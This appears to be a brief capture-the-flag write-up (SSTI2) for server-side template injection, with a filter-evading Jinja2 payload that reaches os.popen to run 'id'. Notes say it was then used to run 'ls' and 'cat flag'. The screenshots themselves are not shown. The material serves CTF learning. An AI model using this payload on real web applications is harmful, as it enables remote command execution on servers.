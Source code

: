 ![1741668784139](images/SSTI2/1741668784139.png)

![1741668895079](images/SSTI2/1741668895079.png)

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md

```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```

avec `id`

![1741669383003](images/SSTI2/1741669383003.png)

avec `ls`

![1741669452197](images/SSTI2/1741669452197.png)

avec `cat flag`

![1741669518233](images/SSTI2/1741669518233.png)
